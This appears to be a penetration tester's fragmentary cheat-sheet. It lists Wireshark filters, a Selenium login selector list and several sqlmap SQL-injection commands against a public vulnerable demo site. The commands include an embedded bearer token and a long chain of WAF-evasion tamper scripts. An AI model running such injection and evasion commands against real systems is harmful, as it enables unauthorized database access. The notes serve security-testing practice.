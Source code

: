 xss2png

## Application stored cache on the client verification

Go to page panel, administration or whatever you want, close session and return.

## Wireshark analysis


```
ip.addr == 172.25.118.65
tcp.dstport == 443
tcp.port==443 && ip.addr == 172.25.118.65
```


## Zackari Tool

Selenium login selector:
User
Password
Detect Second Factor



## SQL Injection Test


```
sudo apt-get install sqlmap


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs   --headers= "Authorization: Bearer: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdWQiOiIxIiwianRpIjoiOTZhMTJlZjcxNGUzZmUwMTdlOWZiMzZkOTZiMTBkZjVjNDIwYTQ3OWU5N2IwYjRmNGNhNDE3MTM5MzZlNzNjOWUwODk0ZDFjZTFlMjVmMTQiLCJpYXQiOjE2NjEyNzY5MjAuMDY5MDgxLCJuYmYiOjE2NjEyNzY5MjAuMDY5MDgzLCJleHAiOjE2OTI4MTI5MjAuMDY1MjQsInN1YiI6IjE3Iiwic2NvcGVzIjpbXX0.gJmnuUp03Y0ZL_3enF3frFLWppUfN5GIEk-xGbB4YZFulWXBeYglBxMu6vCpCZ-hGP0HqeeGYGUKUgUTJmI3eyhyln-NpDh2vqc50Dy7BEwMPGRl4BEHVGJrlQ2O6G_AOvCFP977SJS4vcUrn4ZtO9jigywy0-OTm8_z-M9gC-vfP-WYZ6hx-_QdFOzTZBYpbtgMxIaUh38ysnhsSsUSH-eD7kUJQmC822Xc9qkxwhkK3VNVfMUJByM3xi2gVtmCvtOFXzMejwkdiiut6bZtLNNxZT9KIxjL7OzD87jkIiyWnNFO5c_krp4GEQM1cYmTgfS10M-IR2hnhBHAXXj46lPpGkjNkqindspxDliVRpV78PVeZlkkM0q3Np9Q_-92pSlQkEVR-0xlAf5z2OhuGfYd0FuhVlDFYu5BNwer71QJX9H0vCTYnseA_LFd4GxKm9YiLey8SBXid84dJ0fiH5JF1rq64oiIOVmTnO198mEYhGIYy5UQH-HogKIGGUL2Hi0TOzW24PJnZBrMe_YY1HLsk6BPg-xfaBqbDXxMJxdJ1-vFeU200Gtxfo9crJ11wKwvWy90Q230hUXWCKNaRKeLNcKv9RWQq2_uCUjNAzcuGZsq69AwfYQLc4MvOcW5QZBt_UVARyGVSBytLOJykNWjIUqjCuXp7PpQ6BpmgEc" --method=POST --proxy="http://127.0.0.1:8080"


sqlmap -r request.txt  --proxy="http://172.24.176.1:8080" --random-agent --level 2 --risk 2 --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --time-sec 15

sqlmap -r request.txt  --proxy="http://172.24.176.1:8080"
```
